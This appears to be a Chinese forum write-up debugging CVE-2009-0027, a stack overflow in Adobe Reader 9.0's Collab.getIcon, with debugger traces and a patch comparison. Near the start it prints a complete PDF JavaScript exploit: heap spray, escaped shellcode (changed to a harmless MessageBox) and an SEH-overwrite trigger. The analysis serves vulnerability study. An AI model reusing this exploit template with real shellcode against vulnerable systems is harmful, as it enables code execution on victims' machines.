








# CVE-2009-0027 调试笔记

> 原文：[`www.pediy.com/kssd/pediy10/98139.html`](https://www.pediy.com/kssd/pediy10/98139.html)

调试环境：WinXP sp3   
  
调试对象：Adobe Reader 9.0 English  
  
调试工具：OD + Windbg + IDA5.0 + Diffing Suite  
  
    其实，milw0rm 上 2009 年 9 月 3 号公布的样本中包含了漏洞的分析，这里只是整理一下，希望能给像我一样的菜鸟些帮助。高手飘过~~~  
  
一、漏洞描述  
  
    描述来自绿盟：  
  
    [`www.nsfocus.net/vulndb/13122`](http://www.nsfocus.net/vulndb/13122)  
  
      
    通过描述可以知道该漏洞是栈溢出。  
  
二、样本说明  
  
    样本来自 milw0rm  
  
    [`www.milw0rm.com/exploits/9579`](http://www.milw0rm.com/exploits/9579)  
  
    我把其中的 shellcode 换成 failwest 大侠弹出对话框的那个；并对 shellcode 稍作修改，把其中的“failwest”换成了“pandascu”。样本见附件  
  
    分析之前对样本的脚本做简单解释：  
  

代码:

```
Var shellcode = unescape("%u68fc%u0a6a%u1e38%u6368%ud189%u684f%u7432%u0c91%uf48b%u7e8d%u33f4%ub7db%u2b04%u66e3%u33bb%u5332%u7568%u6573%u5472%ud233%u8b64%u305a%u4b8b%u8b0c%u1c49%u098b%u698b%uad08%u6a3d%u380a%u751e%u9505%u57ff%u95f8%u8b60%u3c45%u4c8b%u7805%ucd03%u598b%u0320%u33dd%u47ff%u348b%u03bb%u99f5%ube0f%u3a06%u74c4%uc108%u07ca%ud003%ueb46%u3bf1%u2454%u751c%u8be4%u2459%udd03%u8b66%u7b3c%u598b%u031c%u03dd%ubb2c%u5f95%u57ab%u3d61%u0a6a%u1e38%ua975%udb33%u6853%u7361%u7563%u7068%u6e61%u8b64%u53c4%u5050%uff53%ufc57%uff53%uf857");
garbage = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090");

while (garbage.length < 0x100)
  garbage += garbage;

garbage += shellcode;

nopblock = unescape("%u9090%u9090");
headersize = 16;
acl = headersize + garbage.length;

while (nopblock.length < acl)
  nopblock += nopblock;

fillblock = nopblock.substring(0, acl);
block = nopblock.substring(0, nopblock.length - acl);
while(block.length + acl < 0x26000)
  block = block + block + fillblock;

memory = new Array();

for (i=0;i<1024;i++)
  memory\[i\] = block + garbage;
//heap spray（堆喷射），需要说明的是要分配 1024 块 512k（具体是 0x81000，可以用 od 看到）大小的堆

var buffer = unescape("%0a%0b%0a%0b");
//0x0b0a0b0a 是漏洞触发后要跳到的地方，这个值很灵活的

while(buffer.length < 0x6000)
//这里规定了栈溢出需要的长度，后面分析发现是不需要这么大的
  buffer += buffer;

app.doc.Collab.getIcon(buffer+'pwn3D.BYkralor');
//引起漏洞的函数

```

三、动态调试与分析  
  
    栈溢出+SHE+堆喷射  
  
1.触发与利用  
  
    运行 Adobe32.exe，打开 Windbg Attach 上该进程，F5；然后，打开样本 poc.pdf，Windbg 会停在：  
代码:

```
eax=7efcfefc ebx=00008004 ecx=00001aca edx=0b0a0b0a esi=044661ac edi=00130000
eip=78180725 esp=0012e8c4 ebp=0012e96c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
\*\*\* ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\\WINDOWS\\WinSxS\\x86\_Microsoft.VC80.CRT\_1fc8b3b9a1e18e3b\_8.0.50727.762\_x-ww\_6b128700\\MSVCR80.dll - 
MSVCR80!strncpy+0xa5:
78180725 8917            mov     dword ptr \[edi\],edx  ds:0023:00130000=78746341

```

    0x130000 做为默认栈底不可写，触发了异常；如果能覆盖异常链表，让某异常处理回调函数指针指向我们的 shellcode，就能够利用该漏洞；碰巧的是被覆盖的堆栈缓冲区包含了异常链表中的一个异常处理回调函数  
  
指针；我们用 0x0b0a0b0a 覆盖原异常处理函数指针，用 Heap Spray 技术把 0x0b0a0b0a 指向的堆区填充上“\\x90\\x90\\x90\\x90”\*n + shellcode，就可以执行到我们的 shellcode 了。  
  
    78180725 是 strncpy 函数领空，向上找到函数开始的位置；下上断点，可以很容易的从 esp 值找到函数的调用者 0x2210FE25，该函数是 Annots.api 领空，验证了 milw0rm 9 月 3 号样本中的分析描述。这里可以根据那个分析，直接在 0x2210FE25 下断点。  
  
    找到 0x2210FE25 这个位置，是为了查看在溢出即将发生的时刻的异常链表指向的位置和 0x0b0a0b0a 是否指向了我们的“\\x90\\x90\\x90\\x90”\*n + shellcode 了。  
  
以下换成 od 调试，和 windbg 步骤差不多；在打开 poc.pdf 的前一刻，ctrl+g 找到 0x2210FE25 的位置下上 F2 断点。大约是第 4 次就会被溢出函数调用了。  
  
    在函数未被执行的时刻，看看“SHE+堆喷射”吧  
  
  
  
    溢出前的 SHE 链指向：0x12ed28  
  
    异常处理回调函数地址为：\[0x12ed28+4\] = \[0x12ed2c\] = 0x238f3de0  
  
     ALT+M，可以看到：  
  
  
  
    双击其中任意一个“0x81000”，可以看到包含设 shellcode 的堆内存：  
  
  
  
    F7，走进 strncpy 函数；从堆栈中可以看到函数的参数值：  
  
  
  
代码:

```
0012E8D4   0012EB24
0012E8D8   04699DA4
0012E8DC   00008004

```

    strncpy 函数描述为：  
  
    char \*strncpy( char \*strDest, const char \*strSource, size\_t count );  
  
代码:

```
2210FE16    56              PUSH ESI                                 ; count=0x8004
2210FE17    57              PUSH EDI                                 ; strSource=04699da4
2210FE18    8B3D 00543422   MOV EDI,DWORD PTR DS:\[<&MSVCR80.strncpy>>; MSVCR80.strncpy
2210FE1E    8D85 B8010000   LEA EAX,DWORD PTR SS:\[EBP+1B8\]
2210FE24    50              PUSH EAX                                 ; strDest = 0012eb24
2210FE25    FFD7            CALL EDI                                 ; MSVCR80.strncpy

```

    0x130000 - 0x12eb24 = 0x14dc < 0x8004，这样就很清楚为什么会触发写异常了；再看看溢出前的 SHE 链，指向的是 0x12ed28，刚好在这段被覆盖的区域。  
  
异常时的情况：  
代码:

```
78180725    8917            MOV DWORD PTR DS:\[EDI\],EDX
78180727    83C7 04         ADD EDI,4
7818072A    83E9 01         SUB ECX,1
7818072D  ^ 74 9F           JE SHORT MSVCR80.781806CE
寄存器值：
EAX 7EFCFEFC
ECX 00001ACA
EDX 0B0A0B0A
EBX 00008004
ESP 0012E8C4
EBP 0012E96C
ESI 044C817C
EDI 00130000 ASCII "Actx "
EIP 78180725 MSVCR80.78180725

```

Ctrl+F8，然后......;看看调用异常处理函数的时刻:  
  
代码:

```
7C923297    FF75 14         PUSH DWORD PTR SS:\[EBP+14\]
7C92329A    FF75 10         PUSH DWORD PTR SS:\[EBP+10\]
7C92329D    FF75 0C         PUSH DWORD PTR SS:\[EBP+C\]
7C9232A0    FF75 08         PUSH DWORD PTR SS:\[EBP+8\]
7C9232A3    8B4D 18         MOV ECX,DWORD PTR SS:\[EBP+18\]
7C9232A6    FFD1            CALL ECX
7C9232A8    64:8B25 0000000>MOV ESP,DWORD PTR FS:\[0\]
寄存器值：
EAX 00000000
ECX 0B0A0B0A
EDX 7C9232BC ntdll.7C9232BC
EBX 00000000
ESP 0012E4F8
EBP 0012E514
ESI 00000000
EDI 00000000
EIP 7C9232A6 ntdll.7C9232A6

```

来到这里了，嘿嘿~~~  
  
  
  
数据窗口，Ctrl+B；查找“FC 68”  
  
  
  
F4 到 0x0B0FFF58   
代码:

```
0B0FFF58    FC              CLD
...
0B0FFFF3    8BC4            MOV EAX,ESP
0B0FFFF5    53              PUSH EBX
0B0FFFF6    50              PUSH EAX
0B0FFFF7    50              PUSH EAX
0B0FFFF8    53              PUSH EBX
0B0FFFF9    FF57 FC         CALL DWORD PTR DS:\[EDI-4\]; USER32.MessageBoxA
0B0FFFFC    53              PUSH EBX
0B0FFFFD    FF57 F8         CALL DWORD PTR DS:\[EDI-8\]

```

  
  
久违的 MessageBox 终于出来了  
  
  
  
2.分析（补丁比较）  
  
0x2210fe25 所在函数的函数首地址为 0x2210FCE8，通过对补丁前后的两个 Annots.api（Annots.dll）进行 IDA 静态分析及补丁比较，做进一步分析  
  
  
  
补丁前，只是对 strSource 是否为空进行了判断，并没有对最大值进行限制；补丁后，把最大值限制为 0x100。  
  
补丁前的判断：  
代码:

```
2210FD05    8BBD C4020000   MOV EDI,DWORD PTR SS:\[EBP+2C4\]           ; strSource 指针放 edi
2210FD0B    33DB            XOR EBX,EBX
2210FD0D    3BFB            CMP EDI,EBX                              ; 判断

```

补丁后加强了判断：  
  
代码:

```
.text:22110439                 mov     edi, \[ebp+2BCh+arg\_0\]
.text:2211043F                 xor     ebx, ebx
.text:22110441                 cmp     edi, ebx
.text:22110443                 mov     \[ebp+2BCh+var\_30C\], edi
.text:22110446                 jz      loc\_22110681
.text:22110446
.text:2211044C                 push    edi
.text:2211044D                 call    sub\_2210FBCB
.text:2211044D
.text:22110452                 cmp     eax, 100h
.text:22110457                 pop     ecx
.text:22110458                 jnb     loc\_22110681

```

sub\_2210FBCB  
  
代码:

```
.text:2210FBCB arg\_0           = dword ptr  4
.text:2210FBCB
.text:2210FBCB                 mov     eax, \[esp+arg\_0\]
.text:2210FBCF                 test    eax, eax
.text:2210FBD1                 jz      short loc\_2210FBE6
.text:2210FBD1
.text:2210FBD3                 cmp     byte ptr \[eax\], 0FEh
.text:2210FBD6                 jnz     short loc\_2210FBE6
.text:2210FBD6
.text:2210FBD8                 cmp     byte ptr \[eax+1\], 0FFh
.text:2210FBDC                 jnz     short loc\_2210FBE6
.text:2210FBDC
.text:2210FBDE                 push    eax
.text:2210FBDF                 call    sub\_2210FA7A
.text:2210FBDF
.text:2210FBE4                 pop     ecx
.text:2210FBE5                 retn

```

sub\_2210FA7A  
  
代码:

```
......
.text:2210FA8B                 test    bl, bl
.text:2210FA8D                 jz      short loc\_2210FA93
.text:2210FA8D
.text:2210FA8F
.text:2210FA8F loc\_2210FA8F:                           ; CODE XREF: sub\_2210FA7A+F j
.text:2210FA8F                 inc     eax
.text:2210FA90                 inc     eax
.text:2210FA91                 jmp     short loc\_2210FA81
.text:2210FA91
.text:2210FA93 ; ---------------------------------------------------------------------------
.text:2210FA93
.text:2210FA93 loc\_2210FA93:                           ; CODE XREF: sub\_2210FA7A+13 j
.text:2210FA93                 pop     ebx
.text:2210FA94                 retn

```

.text:22110452                 cmp     eax, 100h//为什么是 0x100h 呢？  
  
看这里：  
  
代码:

```
2210FDA7    56              PUSH ESI
2210FDA8    8D85 B9010000   LEA EAX,DWORD PTR SS:\[EBP+1B9\]
2210FDAE    53              PUSH EBX
2210FDAF    50              PUSH EAX
2210FDB0    889D B8010000   MOV BYTE PTR SS:\[EBP+1B8\],BL
2210FDB6    E8 91380100     CALL <JMP.&MSVCR80.memset>
寄存器值：
EAX 0012EB25
ECX 0012E914
EDX 0012E8C3
EBX 00000000
ESP 0012E8D4
EBP 0012E96C
ESI 000000FF
EDI 04499B5C
EIP 2210FDB6 Annots.2210FDB6

```

    PS：水平很菜，入门级。本来希望分析的更加深入一些（比如 app.doc.Collab.getIcon(buffer+'pwn3D.BYkralor')的调用来龙去脉），却发现没有那个实力；不会的东西太多，还是得去看书……  
  
   大家轻拍  
  

引用: 附件：poc.rar \[解压密码：pediy\]